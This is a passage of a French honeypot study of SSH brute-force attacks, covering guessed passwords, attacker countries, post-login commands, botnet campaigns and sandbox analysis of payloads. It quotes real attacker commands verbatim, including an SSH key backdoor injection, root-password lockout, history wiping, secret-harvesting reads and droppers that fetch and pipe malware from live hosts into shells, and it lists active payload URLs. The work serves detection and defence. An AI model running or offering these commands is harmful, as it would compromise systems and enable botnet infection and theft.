| 17 | `3245gs5662d34` | 676 | **Mirai / DVR** |
| 18 | `345gs5662d34` | 665 | **Mirai / DVR** |
| 19 | `orangepi` | 607 | défaut constructeur |
| 20 | `Aa123456` | 587 | classique |
| 21 | `fjbdfdjkdsfs541544@@` | 515 | **signature de botnet** |
| 22 | `123123` | 488 | classique |
| 23 | `qwerty` | 474 | classique |
| 24 | `welltech12` | 469 | **défaut constructeur** |
| 25 | `abc123` | 457 | classique |
| 26 | `Wangsu@2017` | 424 | **défaut fournisseur CDN** |
| 27 | `alpine` | 412 | défaut distribution |
| 28 | `Admin123` | 412 | classique |
| 29 | `test123` | 409 | classique |

Quelques enseignements.

**`P@ssw0rd` en 12ᵉ position, avec 911 tentatives.** C'est le mot de passe archétypal qui satisfait une politique de complexité Active Directory : majuscule, minuscules, chiffre, caractère spécial, 8 caractères. Il est dans toutes les wordlists depuis quinze ans. Une politique de complexité ne produit pas des mots de passe forts, elle produit des mots de passe *prévisibles*.

**Les chaînes bizarres sont des signatures.** `fjbdfdjkdsfs541544AA@@` et sa variante sans les `AA` ne sont pas des devinettes : c'est du roulement de clavier codé en dur dans une famille de botnets. Comme pour `345gs5662d34`, leur apparition dans des logs est un indicateur de compromission à part entière.

**Les défauts constructeur ont la vie dure.** `welltech12`, `Wangsu@2017` (Wangsu Science & Technology, un CDN chinois majeur), `orangepi`, `alpine` : ce sont des mots de passe d'usine. Leur présence dans les wordlists signifie que quelqu'un, quelque part, a extrait un firmware et publié les identifiants.

### Ce qui fonctionne réellement

Sur les 1 656 authentifications réussies, la répartition des mots de passe qui ont abouti :

| Mot de passe | Succès |
|---|---:|
| `123456` | 883 |
| `password` | 295 |
| `admin` | 114 |
| `root` | 80 |
| `alpine` | 70 |
| `ubuntu` | 55 |
| `toor` | 46 |
| `raspberry` | 44 |
| `debian` | 35 |
| `changeme` | 34 |

Et les comptes par lesquels ils sont entrés : `root` (457), `admin` (49), `ubuntu` (46), `pi` (30), `debian` (23).

*(Rappel méthodologique : ces valeurs reflètent la liste de mots de passe que le honeypot assigne. Elles ne mesurent pas la solidité relative des mots de passe dans la nature, mais elles montrent lesquels sont testés en premier — `123456` arrive en tête parce qu'il est en tête de toutes les wordlists.)*

---

## D'où viennent-ils

Géolocalisation réalisée en local avec la base **GeoLite2-Country** de MaxMind. Aucune IP n'a été soumise à un service tiers.

> [!NOTE]
> La géolocalisation d'IP indique où se trouve la machine qui émet le trafic, **pas** où se trouve l'opérateur. Une part importante de ces adresses sont des serveurs loués ou des machines compromises. Ces chiffres décrivent une infrastructure, pas une attribution.

### Par volume de tentatives (529 765 tentatives géolocalisées, 138 pays)


```mermaid
%%{init: {'theme':'base','themeVariables':{'pie1':'#4C72B0','pie2':'#DD8452','pie3':'#55A868','pie4':'#C44E52','pie5':'#8172B3','pie6':'#937860','pie7':'#C878AE','pie8':'#7F8C8D','pie9':'#B9A05C','pie10':'#64B5CD','pie11':'#A05195','pie12':'#4D7C6F','pieTitleTextSize':'18px','pieTitleTextColor':'#8b949e','pieSectionTextColor':'#ffffff','pieSectionTextSize':'13px','pieLegendTextColor':'#8b949e','pieLegendTextSize':'14px','pieStrokeColor':'#ffffff','pieStrokeWidth':'2px','pieOuterStrokeColor':'#8b949e','pieOuterStrokeWidth':'1px'}}}%%
pie showData
    title Origine des tentatives d'authentification
    "Chine" : 130328
    "Allemagne" : 66502
    "Hong Kong" : 42818
    "Brésil" : 40496
    "Singapour" : 36486
    "Russie" : 31135
    "Indonésie" : 31085
    "États-Unis" : 25980
    "France" : 18883
    "Bulgarie" : 15543
    "autres" : 90509
```

| # | Pays | Tentatives | % |
|---:|---|---:|---:|
| 1 | 🇨🇳 Chine | 130 328 | 24,6 % |
| 2 | 🇩🇪 Allemagne | 66 502 | 12,6 % |
| 3 | 🇭🇰 Hong Kong | 42 818 | 8,1 % |
| 4 | 🇧🇷 Brésil | 40 496 | 7,6 % |
| 5 | 🇸🇬 Singapour | 36 486 | 6,9 % |
| 6 | 🇷🇺 Russie | 31 135 | 5,9 % |
| 7 | 🇮🇩 Indonésie | 31 085 | 5,9 % |
| 8 | 🇺🇸 États-Unis | 25 980 | 4,9 % |
| 9 | 🇫🇷 France | 18 883 | 3,6 % |
| 10 | 🇧🇬 Bulgarie | 15 543 | 2,9 % |
| 11 | 🇳🇱 Pays-Bas | 12 702 | 2,4 % |
| 12 | 🇰🇷 Corée du Sud | 10 911 | 2,1 % |
| 13 | 🇮🇳 Inde | 7 360 | 1,4 % |
| 14 | 🇺🇦 Ukraine | 6 861 | 1,3 % |
| 15 | 🇻🇳 Vietnam | 5 396 | 1,0 % |

L'Allemagne en 2ᵉ position et la Bulgarie en 10ᵉ ne traduisent évidemment pas une activité criminelle locale : ce sont deux places fortes de l'hébergement bon marché en Europe. Un bruteforcer qui veut du débit loue un serveur chez un hébergeur discount, pas une connexion résidentielle.

### Par nombre d'adresses IP uniques (6 676 IP, 138 pays)

| # | Pays | IP uniques | % |
|---:|---|---:|---:|
| 1 | 🇨🇳 Chine | 1 219 | 18,3 % |
| 2 | 🇺🇸 États-Unis | 625 | 9,4 % |
| 3 | 🇰🇷 Corée du Sud | 494 | 7,4 % |
| 4 | 🇮🇳 Inde | 410 | 6,1 % |
| 5 | 🇮🇩 Indonésie | 301 | 4,5 % |
| 6 | 🇧🇷 Brésil | 283 | 4,2 % |
| 7 | 🇭🇰 Hong Kong | 240 | 3,6 % |
| 8 | 🇷🇺 Russie | 213 | 3,2 % |
| 9 | 🇫🇷 France | 201 | 3,0 % |
| 10 | 🇻🇳 Vietnam | 200 | 3,0 % |

Comparer ce tableau au précédent est instructif. **L'Allemagne passe de la 2ᵉ à la 11ᵉ place** : peu d'adresses, mais un volume énorme par adresse — des serveurs dédiés au bruteforce. À l'inverse, **la Corée du Sud et l'Inde comptent beaucoup d'IP pour peu de tentatives chacune** : c'est la signature d'un parc d'appareils compromis, pas d'une infrastructure d'attaque louée.

### Par connexions qui exécutent des commandes (993 connexions, 71 pays)

Le classement bouge dès qu'on regarde qui utilise effectivement l'accès :

| # | Pays | Connexions | % |
|---:|---|---:|---:|
| 1 | 🇨🇳 Chine | 152 | 15,3 % |
| 2 | 🇺🇸 États-Unis | 134 | 13,5 % |
| 3 | 🇩🇪 Allemagne | 64 | 6,4 % |
| 4 | 🇮🇩 Indonésie | 63 | 6,3 % |
| 5 | 🇭🇰 Hong Kong | 55 | 5,5 % |
| 6 | 🇰🇷 Corée du Sud | 40 | 4,0 % |
| 7 | 🇳🇱 Pays-Bas | 38 | 3,8 % |
| 8 | 🇫🇷 France | 32 | 3,2 % |
| 9 | 🇻🇳 Vietnam | 31 | 3,1 % |
| 10 | 🇮🇳 Inde | 31 | 3,1 % |

**La Chine reste première, mais son poids baisse : 24,6 % des tentatives, 15,3 % des connexions qui exécutent des commandes.** Les mouvements les plus nets sont ailleurs. Les États-Unis passent de 4,9 % des tentatives à 13,5 %, tandis que le Brésil (7,6 % → 2,0 %), la Russie (5,9 % → 0,3 %) et la Bulgarie (2,9 % → 0) disparaissent presque. Certaines infrastructures ne font que bruteforcer, d'autres surtout utiliser les accès : c'est cohérent avec un marché à deux étages, mais moins tranché que ne l'affirmait la première version de ce write-up — elle s'appuyait sur les sessions, qui surpondéraient les bots les plus bavards.

---

## Ce qu'ils tapent une fois dedans

**40 % des connexions réussies (663) n'exécutent aucune commande.** Le bot s'authentifie et se déconnecte : il ne fait que valider l'identifiant pour le revendre ou l'ajouter à une liste. L'exploitation viendra plus tard, et souvent par un autre acteur.

Les 60 % restantes exécutent des commandes — environ 13 chacune en moyenne. Les bots ouvrent rarement un shell interactif : ils envoient chaque commande dans un canal SSH séparé (`exec`), et chaque canal est enregistré comme une session. C'est pourquoi 1 656 connexions réussies produisent 12 939 sessions.

### Le bloc de reconnaissance

Un même enchaînement de commandes revient dans 687 connexions — 69 % de celles qui exécutent des commandes — presque toujours dans le même ordre. C'est du profilage de machine pour décider quoi y déployer :

| Commande | Occurrences | But |
|---|---:|---|
| `cd ~; chattr -ia .ssh; lockr -ia .ssh` | 687 | retirer l'immuabilité de `.ssh` avant de la réécrire |
| `whoami` | 670 | confirmer qu'on est root |
| `w` | 668 | y a-t-il un admin connecté en ce moment ? |
| `uname -m` | 665 | architecture — quel binaire télécharger |
| `cat /proc/cpuinfo \| grep name \| wc -l` | 657 | nombre de cœurs |
| `cat /proc/cpuinfo \| grep name \| head -n 1 \| awk '{print $4,$5,$6,$7,$8,$9;}'` | 629 | modèle de CPU |
| `free -m \| grep Mem \| awk '{print $2,$3,$4,$5,$6,$7}'` | 622 | RAM disponible |
| `ls -lh $(which ls)` | 616 | **détection de honeypot** |
| `crontab -l` | 612 | persistance déjà en place ? concurrents ? |
| `uname -a` | 610 | version du kernel |
| `cat /proc/cpuinfo \| grep model \| grep name \| wc -l` | 599 | idem, variante |
| `top` | 594 | qui consomme du CPU — repérer un mineur concurrent |
| `lscpu \| grep Model` | 582 | modèle de CPU |
| `df -h \| head -n 2 \| awk 'FNR == 2 {print $2;}'` | 576 | espace disque |

Tout tourne autour d'une seule question : **combien de CPU et de RAM puis-je voler ici ?** C'est du minage de cryptomonnaie, ou de la location de capacité DDoS. La qualification de la cible est entièrement automatisée.

> [!TIP]
> **`ls -lh $(which ls)` est une détection de honeypot.** L'attaquant vérifie la taille du binaire `ls`. Sur un vrai système, c'est environ 140 Ko. Sur un honeypot à shell émulé, la commande renvoie une valeur incohérente, ou échoue. Mon honeypot y survit parce que le shell est réel : `ls` est un vrai binaire dans un vrai rootfs. C'est exactement le genre de test qui justifie le coût de l'architecture microVM.

### Reconnaissance plus élaborée

Un acteur nettement plus soigné apparaît 51 fois avec un script bien écrit :

```bash
command -v kill 2>&1 || echo command not found
uptime | grep -ohe 'up .*' | sed 's/,//g' | awk '{ print $2" "$3 }'
lscpu | egrep "Model name:" | cut -d ' ' -f 14-
if command -v lspci &>/dev/null; then
    lspci | egrep VGA | grep NVIDIA | awk '{print $5}' | wc -l
else
    nvidia-smi -q | grep "Product Name" | awk '{print $4,$5,$6,$7,$8,$9,$10,$11}' | wc -l
fi
curl -s --max-time 3 ipinfo.io/org
ip r | grep -Eo '[0-9]{1,3}.[0-9]{1,3}.[0-9]{1,3}.[0-9]{1,3}/[0-9]{1,2}'
cat /etc/passwd | grep -v nologin | grep -v false | grep -v sync | grep -v halt | grep -v shutdown | cut -d: -f1
```

Trois choses le distinguent du tout-venant :

1. **Il cherche des GPU NVIDIA**, avec un repli sur `nvidia-smi` si `lspci` est absent. Ce n'est plus du minage CPU opportuniste — c'est quelqu'un qui cherche de la capacité de calcul GPU, revendable bien plus cher.
2. **Il interroge `ipinfo.io/org`** pour identifier l'hébergeur de la victime. Un serveur AWS, OVH ou Hetzner ne se traite pas comme une box résidentielle.
3. **Il énumère le voisinage réseau** (`ip r`) et les comptes humains réels (`/etc/passwd` filtré des comptes système). C'est de la préparation de mouvement latéral.

Sur mon honeypot, les appels réseau échouent silencieusement — ce qui n'a manifestement pas alerté l'opérateur.

### Persistance

**La clé SSH.** 675 connexions, depuis 332 IP distinctes, injectent exactement la même clé publique :

```bash
cd ~ && rm -rf .ssh && mkdir .ssh && echo "ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEArDp4cun2lhr4KUhBGE7VvAcwdli2a8dbnrTOrbMz1+5O73fcBOx8NVbUT0bUanUV9tJ2/9p7+vD0EpZ3Tz/+0kX34uAx1RV/75GVOmNx+9EuWOnvNoaJe0QXxziIg9eLBHpgLMuakb5+BgTFB+rKJAw9u9FSTDengvS8hX1kNFS4Mjux0hJOK8rvcEmPecjdySYMb66nylAKGwCEE6WEQHmd1mUPgHwGQ0hWCwsQk13yCGPK5w6hYp5zYkFnvlC8hGmd4Ww+u97k6pfTGTUbJk14ujvcD9iUKQTTWYYjIIu5PmUux5bsZ0R4WFwdIe6+i6rBLAsPKgAySVKPRK+oRw== mdrfckr" >> .ssh/authorized_keys && chmod -R go= ~/.ssh && cd ~
```

> [!CAUTION]
> **La clé `mdrfckr` est l'un des indicateurs de compromission les plus connus du monde Linux.** Elle est associée au botnet **Outlaw** (aussi appelé Dota / Shellbot) et circule à l'identique depuis 2018. Si cette chaîne apparaît dans un `authorized_keys` sur votre parc, la machine est compromise, point. Le `rm -rf .ssh` en préambule **supprime vos clés légitimes** — c'est aussi un déni de service pour l'administrateur.

Notez le `chattr -ia` en amont : les opérateurs savent que certains administrateurs rendent `authorized_keys` immuable, et ils l'anticipent. `lockr` est une variante propre à certains firmwares.

**Le changement de mot de passe root.** 635 connexions, depuis 309 IP, changent le mot de passe du compte pour un aléatoire à 12 caractères :

```bash
echo -e "123456\ngXuV60qK6VQx\ngXuV60qK6VQx" | passwd | bash
echo -e "password\n3Yp7fdZtHwLY\n3Yp7fdZtHwLY" | passwd | bash
echo -e "admin\neVgSCkxXyXXv\neVgSCkxXyXXv" | passwd | bash
```

Le premier champ est l'ancien mot de passe — celui qu'ils viennent de deviner. C'est un **verrouillage de la victime** : une fois le mot de passe changé, ni l'administrateur légitime, ni les botnets concurrents ne peuvent revenir. Chaque connexion utilise un mot de passe différent, ce qui suggère une génération côté C2 avec remontée du secret.

Deux tentatives plus sophistiquées passent par `usermod` et un hash SHA-512 correct, ce qui fonctionne sur des systèmes où `passwd --stdin` n'existe pas :

```bash
bash -c "usermod -p \"$(openssl passwd -6 'KenoR3G3@44')\" root 2>&1"
```

### Élimination de la concurrence

Le champ de bataille est encombré, et les botnets se débarrassent activement les uns des autres :

```bash
rm -rf /tmp/secure.sh; rm -rf /tmp/auth.sh; pkill -9 secure.sh; pkill -9 auth.sh; echo > /etc/hosts.deny; pkill -9 sleep;
pkill kswpad
```

Le `echo > /etc/hosts.deny` (12 connexions) supprime les protections mises en place par… le botnet précédent. Une machine compromise est une ressource disputée.

### Effacement de traces

26 connexions depuis 9 IP tentent d'effacer leur passage :

```bash
unset HISTFILE; history -c; rm -f ~/.bash_history ~/.zsh_history ~/.mysql_history ~/.sqlite_history
set +o history
history | tail -5
```

C'est peu — 2,6 % des connexions qui exécutent des commandes. La conclusion est claire : **la quasi-totalité des attaquants ne font aucun effort d'anti-forensique.** Ils misent sur le fait que personne ne regardera jamais les logs. Le corollaire opérationnel est encourageant : si vous *regardez* vos logs, vous les verrez.

Une connexion se distingue par sa discrétion, avec un `chmod` sur un `.so` PAM au nom évocateur et un redémarrage du service SSH :

```bash
chmod 644 /usr/lib/x86_64-linux-gnu/security/pam_verify_auth.so 2>/dev/null
systemctl restart ssh 2>/dev/null || systemctl restart sshd 2>/dev/null
```

Un module PAM malveillant intercepte les authentifications en amont de tout : c'est de la persistance qui survit à un changement de mot de passe et à une rotation de clés.

### La chasse aux données — ou plutôt au rebond suivant

Le rootfs contient des leurres : un `/opt/app/.env` avec un mot de passe de base de données et de fausses clés AWS, des notes d'admin dans `/root/.notes`, et un `.bash_history` rempli de commandes plausibles (`cat .env`, `ssh deploy@prod-db-01.internal`, `scp backup.sql …`).

**29 connexions, depuis 15 IP, vont chercher des données.** C'est très peu, mais ce n'est pas zéro :

| Quoi | Connexions | IP | Période |
|---|---:|---:|---|
| Lecture du hash du mot de passe root dans `/etc/shadow` | 19 | 5 | juin – août |
| Aspiration des historiques shell, `known_hosts`, `~/.ssh/config`, `/etc/hosts` | 9 | 9 | 15–20 septembre |
| Recherche de tous les fichiers `.env` du disque pour les afficher | 1 | 1 | 23 juin |
| Ouverture directe d'un des leurres (`.env`, `.notes`…) | 0 | 0 | — |

Le collecteur d'historiques, toujours avec un client `SSH-2.0-Go`, est le plus parlant (extrait) :

```bash
echo 'debian' | sudo -S -p '' su - -c 'bash -c '\''
{
  cat ~/.bash_history 2>/dev/null
  cat /root/.bash_history 2>/dev/null
  cat /home/*/.bash_history 2>/dev/null
  cat ~/.ssh/known_hosts 2>/dev/null
  cat ~/.ssh/config 2>/dev/null
  cat /etc/hosts 2>/dev/null
} | tail -n 20000
'\''' 2>/dev/null
```

Il ne cherche pas des documents : il cherche à savoir **avec quelles autres machines celle-ci communique**. Les historiques, `known_hosts` et la config SSH forment une carte des rebonds possibles. Et il a obtenu exactement ça — mon faux historique, `ssh deploy@prod-db-01.internal` compris. Mais personne n'est revenu suivre la piste : la collecte est automatisée, et l'exploitation, s'il y en a une, se fait ailleurs.

À noter : rien de tout cela n'a besoin de réseau. Les données volées sortent par la sortie de la session SSH, comme tout ce que voit l'attaquant. L'absence d'interface réseau empêche de télécharger, pas de lire.

### Transferts binaires directs

19 connexions, depuis 18 IP, poussent un **ELF directement dans le flux du terminal**, sans passer par `wget` ou `curl`. On voit l'en-tête `\x7fELF` apparaître brut dans l'enregistrement. Le plus gros enregistrement du corpus fait **47 Mo** à lui seul.

C'est une adaptation intelligente : sur une machine durcie sans `wget`, sans `curl` et avec du filtrage sortant, le canal SSH lui-même reste ouvert. Une seule connexion utilise le protocole SCP (`scp -t /usr/.work/`), les autres passent en direct.

> [!WARNING]
> Bloquer `wget` et `curl` ne suffit pas à empêcher le dépôt de payload. Le canal d'administration est aussi un canal de transfert.

---

## Les campagnes identifiées


```mermaid
gantt
    title Campagnes observées sur le honeypot
    dateFormat YYYY-MM-DD
    axisFormat %d/%m

    section Outlaw / Dota
    Clé mdrfckr — 675 conn., 332 IP         :active, 2026-05-21, 2026-09-21
    Recon chattr/lockr — 687 conn.          :active, 2026-05-21, 2026-09-21

    section Verrouillage
    Changement mdp root — 635 conn.         :active, 2026-05-01, 2026-09-21

    section Droppers
    kswpad (BillGates) — 10 conn., 1 IP     :2026-05-13, 2026-09-16
    Dropper /linux — 17 conn., 16 IP        :2026-05-05, 2026-09-14
    Upload ELF direct — 19 conn.            :2026-05-05, 2026-09-14
    fakepika (Diicot) — 2 conn.             :2026-06-17, 2026-06-18

    section Vague de septembre
    zed + perl — 5 conn.                    :crit, 2026-09-15, 2026-09-20
    bo.sh — 5 conn.                         :crit, 2026-09-16, 2026-09-19
```

**Outlaw est permanent.** Du 21 mai au 21 septembre sans interruption, 332 IP distinctes, toujours la même clé et le même bloc de recon. C'est l'arrière-plan constant d'Internet.

**`kswpad` : 10 connexions, une seule IP.** Un opérateur unique, persévérant, qui est revenu pendant quatre mois. Comme le honeypot conserve son overlay qcow2, il a retrouvé « sa » machine à chaque visite. URLhaus identifie deux des binaires de la famille comme **BillGates** (alias Elknot), un bot DDoS Linux de longue date : cet opérateur cherchait de la bande passante, pas du CPU.

**La vague de septembre.** Les campagnes `zed`+`perl` et `bo.sh` n'apparaissent qu'en toute fin de période (15-20 septembre), chacune depuis 5 IP distinctes. C'est le style Outlaw — le payload `zed` est un script Perl de bot IRC — mais avec une nouvelle infrastructure et un mode de livraison plus propre.

---

## Les payloads et leurs URLs

> [!CAUTION]
> **Les URLs ci-dessous sont des indicateurs de compromission actifs.** Elles sont publiées pour permettre la détection et le blocage. **Ne les visitez pas, ne les téléchargez pas, ne les exécutez pas.** Aucun de ces fichiers n'a été téléchargé ni exécuté lors de cette étude : la microVM n'a pas d'accès réseau, ce qui rend l'exécution matériellement impossible.

24 hôtes distincts ont été sollicités. Voici l'inventaire complet, avec la géolocalisation des serveurs de distribution. Ce que font réellement ces payloads est traité au chapitre suivant, [Suivre les payloads](#suivre-les-payloads).

### Famille « kswpad » — multi-architecture

Le dropper le plus structuré, avec un binaire par architecture et une persistance dans `/etc` :

```bash
cd /tmp;rm -f amd64;wget -t 1 http://195.177.94.72:3594/b/amd64
cd /tmp;rm -f kal64;wget -t 1 http://195.177.94.72:3594/b/kal64
cd /etc;rm -f kswpad;wget -t 1 http://195.177.94.72:3594/b/kswpad
chmod 777 /tmp/amd64
chmod 777 /tmp/kal64
chmod 777 /etc/kswpad
pkill kswpad
```

| Hôte | Pays | Ports | Chemins |
|---|---|---|---|
| `195.177.94.72` | 🇫🇷 France | 3594, 26346 | `/b/amd64`, `/b/kal64`, `/b/kswpad`, `/b/linux` |
| `194.59.31.57` | 🇫🇷 France | 35415, 62123 | `/b/amd64`, `/b/kal64`, `/b/kswpad`, `/b/linux` |
| `194.59.31.5` | 🇫🇷 France | 314 | `/b/amd64`, `/b/kal64`, `/b/kswpad` |
| `151.241.154.172` | 🇺🇸 États-Unis | 32014 | `/b/amd64`, `/b/kal64`, `/b/kswpad`, `/b/linux` |

Le dépôt dans `/etc` plutôt que `/tmp` est délibéré : `/tmp` est souvent monté en `noexec` et purgé au redémarrage, `/etc` ne l'est jamais. La rotation de ports (3594 → 26346, 35415 → 62123) est une évasion de blocage basique.

URLhaus identifie `kal64` et `kswpad` comme **BillGates / Elknot**, un bot DDoS Linux, et VirusTotal confirme (Setag et Ganiw sont d'autres noms de la même famille). VirusTotal identifie aussi les deux autres binaires : `amd64` est **Kaiji**, un autre bot DDoS, écrit en Go, et `/b/linux` est un **scanner SSH** — l'outil qui trouve les victimes suivantes. L'infrastructure ne lui est d'ailleurs pas réservée : ThreatFox recense `151.241.154.172` comme serveur de commande **Remcos** (un RAT Windows), et `195.177.94.72` a aussi servi des payloads Windows, étiquetés `exe`, `msi` et `connectwise`.

### Famille « /linux » — un binaire, beaucoup d'hôtes

Le même schéma d'URL sur 15 hôtes différents, majoritairement des IP Alibaba Cloud :

| Hôte | Pays | URL |
|---|---|---|
| `120.77.237.174` | 🇨🇳 Chine | `http://120.77.237.174:7494/linux` |
| `47.104.162.41` | 🇨🇳 Chine | `http://47.104.162.41:7100/linux` |
| `47.86.176.209` | 🇭🇰 Hong Kong | `http://47.86.176.209:60133/linux` |
| `81.71.147.73` | 🇨🇳 Chine | `http://81.71.147.73:8064/linux` |
| `220.180.99.71` | 🇨🇳 Chine | `http://220.180.99.71:60105/linux` |
| `60.205.248.70` | 🇨🇳 Chine | `http://60.205.248.70:6352/linux` |
| `112.124.33.87` | 🇨🇳 Chine | `http://112.124.33.87:60147/linux` |
| `42.193.141.153` | 🇨🇳 Chine | `http://42.193.141.153:9210/linux` |
| `158.101.242.199` | 🇸🇦 Arabie saoudite | `http://158.101.242.199:60105/linux` |
| `47.108.211.13` | 🇨🇳 Chine | `http://47.108.211.13:9655/linux` |
| `114.55.63.70` | 🇨🇳 Chine | `http://114.55.63.70:8989/linux` |
| `47.95.111.18` | 🇨🇳 Chine | `http://47.95.111.18:8419/linux` |
| `123.57.51.183` | 🇨🇳 Chine | `http://123.57.51.183:6707/linux` |
| `120.26.141.203` | 🇨🇳 Chine | `http://120.26.141.203:8808/linux` |
| `59.110.9.189` | 🇨🇳 Chine | `http://59.110.9.189:9684/linux` |

Chaque hôte utilise un port haut différent. L'infrastructure est jetable : chaque IP ne sert que quelques connexions avant d'être remplacée.

URLhaus confirme le « un seul binaire » : le même fichier (SHA-256 `a505de0a…`) a été collecté sur 7 de ces hôtes. Deux hôtes de la famille sont étiquetés **P2Pinfect**, un ver écrit en Rust qui se propage via Redis et SSH et embarque un mineur — une identification probable, mais indirecte. VirusTotal ne tranche pas : 34 moteurs sur 62 détectent le binaire commun, mais seulement avec des étiquettes génériques (cheval de Troie compressé, rootkit) ; le nom P2Pinfect n'apparaît que sur des échantillons plus anciens de `47.86.176.209`.

### Famille « zed » — bot IRC en Perl

```bash
nohup sh -c '(timeout 60 curl -sS --max-time 55 http://66.116.243.130/bo.sh 2>/dev/null | bash) >/dev/null 2>&1 </dev/null' >/dev/null 2>&1 &
curl -sS --max-time 5 http://66.116.243.130/zed 2>/dev/null | perl &
timeout 60 curl -sS http://154.70.152.216/zed | perl >/dev/null 2>&1 &
```

| Hôte | Pays | URLs |
|---|---|---|
| `66.116.243.130` | 🇮🇳 Inde | `/bo.sh`, `/zed` |
| `154.70.152.216` | 🇿🇦 Afrique du Sud | `/zed` |

Le pipe `curl | perl` est notable : **rien n'est écrit sur disque**. Le script s'exécute directement en mémoire, ce qui le rend invisible à un antivirus basé sur l'analyse de fichiers. Le `nohup … </dev/null &` avec triple redirection garantit la survie à la fermeture de la session SSH.

URLhaus a collecté **15 scripts Perl différents** sur `154.70.152.216/zed` : le contenu change d'un téléchargement à l'autre, l'URL reste la même. VirusTotal classe tous ceux qu'il connaît — 8 sur 15, plus le script de `66.116.243.130` — comme **Shellbot**, le bot IRC en Perl associé à Outlaw.

### Autres

| Hôte | Pays | URL | Note |
|---|---|---|---|
| `45.153.34.212` | 🇳🇱 Pays-Bas | `45.153.34.212/fakepika`, `:8181/.bia`, `:8181/.dcplm` | attribué par ThreatFox à **Diicot**, un groupe roumanophone : dropper Mirai et proxy de minage XMRig. `.bia` et `.dcplm` sont des scripts shell que VirusTotal classe comme téléchargeurs installant un mineur. Fichiers à point pour se cacher d'un `ls` |
| `64.89.161.144` | 🇺🇸 États-Unis | `:28816/CZRmrtxnrNONBXhwfFeqjNfBrliNaShG` | mineur **XMRig** selon URLhaus ; chemin aléatoire — anti-signature d'URL |
| `31.56.209.39` | 🇳🇱 Pays-Bas | `/wget.sh`, `/curl.sh` | **Mirai** selon URLhaus ; double dropper selon l'outil disponible |

La chaîne complète de `fakepika` illustre bien le pattern « télécharger, exécuter, effacer » :

```bash
wget 45.153.34.212/fakepika || curl -O 45.153.34.212/fakepika ; chmod +x fakepika ; ./fakepika ; rm -rf fakepika ; clear ; history -c ; rm -rf ~/.ash_history
```

Le `wget || curl` couvre les deux cas de figure, `rm -rf ~/.ash_history` vise BusyBox — donc des cibles IoT.

Et le dropper de `31.56.209.39`, qui nettoie la concurrence avant de s'installer :

```bash
echo "history -cw; cd /tmp; rm -rf *.sh; rm -rf bizy*; rm -rf odin*; wget http://31.56.209.39/wget.sh; sh wget.sh; curl http://31.56.209.39/curl.sh -o curl.sh; sh curl.sh | sh" | sh
```

`bizy*` et `odin*` sont des familles concurrentes.

### Synthèse géographique de l'infrastructure de distribution


```mermaid
%%{init: {'theme':'base','themeVariables':{'pie1':'#4C72B0','pie2':'#DD8452','pie3':'#55A868','pie4':'#C44E52','pie5':'#8172B3','pie6':'#937860','pie7':'#C878AE','pie8':'#7F8C8D','pie9':'#B9A05C','pie10':'#64B5CD','pie11':'#A05195','pie12':'#4D7C6F','pieTitleTextSize':'18px','pieTitleTextColor':'#8b949e','pieSectionTextColor':'#ffffff','pieSectionTextSize':'13px','pieLegendTextColor':'#8b949e','pieLegendTextSize':'14px','pieStrokeColor':'#ffffff','pieStrokeWidth':'2px','pieOuterStrokeColor':'#8b949e','pieOuterStrokeWidth':'1px'}}}%%
pie showData
    title Hôtes de payload par pays (24 hôtes)
    "Chine" : 13
    "France" : 3
    "Pays-Bas" : 2
    "États-Unis" : 2
    "Inde" : 1
    "Hong Kong" : 1
    "Arabie saoudite" : 1
    "Afrique du Sud" : 1
```

Trois hôtes français distribuent la famille `kswpad`. C'est un rappel utile : l'infrastructure malveillante est hébergée partout, y compris chez des hébergeurs européens réputés. Le filtrage par géolocalisation est une mesure de sécurité très faible.

---

## Suivre les payloads

Les URLs ci-dessus montrent ce que les attaquants essaient d'installer. Ce chapitre regarde ce que sont ces payloads, et ce qu'ils font une fois lancés.

**Méthode.** Rien n'a été exécuté de mon côté :

- chaque URL et chaque hôte ont été recherchés dans les bases d'[abuse.ch](https://abuse.ch/) (URLhaus, ThreatFox, MalwareBazaar), et chaque hash de payload collecté par URLhaus sur [VirusTotal](https://www.virustotal.com/) — 35 hashes, 28 connus ;
- « ce que ça fait » vient des **rapports comportementaux des bacs à sable de VirusTotal**, qui exécutent les échantillons sur leur propre infrastructure. Les tâches propres aux bacs à sable (rotation des logs, gestionnaires de paquets) sont écartées ;
- le 4 octobre, les payloads encore en ligne — le binaire `/linux` commun et un script `zed` — ont été téléchargés dans une quarantaine en lecture seule et hachés, jamais exécutés. Le script Perl a été lu comme du texte.

Couverture : 23 des 46 URLs et 14 des 24 hôtes étaient déjà connus d'URLhaus. Les 10 autres hôtes sont surtout de la famille `/linux`, plus `66.116.243.130` et `45.153.34.212` (ce dernier connu de ThreatFox). Le 4 octobre, j'ai soumis à URLhaus les quatre URLs de ces hôtes qui servaient encore des fichiers.

> [!NOTE]
> Ce sont des étiquettes et des exécutions en bac à sable réalisées par des tiers, pas ma propre rétro-ingénierie. Les étiquettes antivirus, en particulier, sont souvent génériques.

### kswpad : un kit DDoS, plus le scanner qui trouve les victimes suivantes

Les quatre binaires de la famille n'ont pas le même rôle :

- **`kal64` et `kswpad` sont BillGates** (aussi appelé Elknot, Setag, Ganiw), un bot DDoS de longue date. En bac à sable, il s'installe comme faux services d'initialisation (`DbSecuritySpt`, `selinux`) lancés au démarrage, **remplace `ps`, `netstat` et `lsof` par des copies piégées** (les originaux sont déplacés dans `/usr/bin/dpkgd/`) pour ne pas y apparaître, et charge un module noyau, `xpacket.ko`. Ses fichiers de verrou s'appellent littéralement `bill.lock` et `gates.lod`. Il contacte `else.u27v.me` et `web.yk4s.com`.
- **`amd64` est Kaiji**, un bot DDoS écrit en Go. Il se déguise en service système, `quotaon.service`, modifie `/etc/crontab` et réécrit des dizaines de scripts dans `/etc/init.d/`. Il contacte `web.2k5u.ru` et `198.251.81.61:2070`.
- **`/b/linux` est un scanner SSH**, compressé avec UPX, qui contacte `big.auc5.com`, ainsi que `45.129.230.254` et `85.209.176.174` sur le port 60137.

Deux bots DDoS et un scanner : la machine compromise devient une capacité d'attaque, et sert à trouver les victimes suivantes. C'est cohérent avec l'opérateur unique revenu sur sa VM pendant quatre mois. Références : [Trend Micro sur BillGates/Setag](https://www.trendmicro.com/en_us/research/19/g/multistage-attack-delivers-billgates-setag-backdoor-can-turn-elasticsearch-databases-into-ddos-botnet-zombies.html), [Intezer sur Kaiji](https://intezer.com/blog/kaiji-new-chinese-linux-malware-turning-to-golang/).

### /linux : un seul binaire, rôle non établi

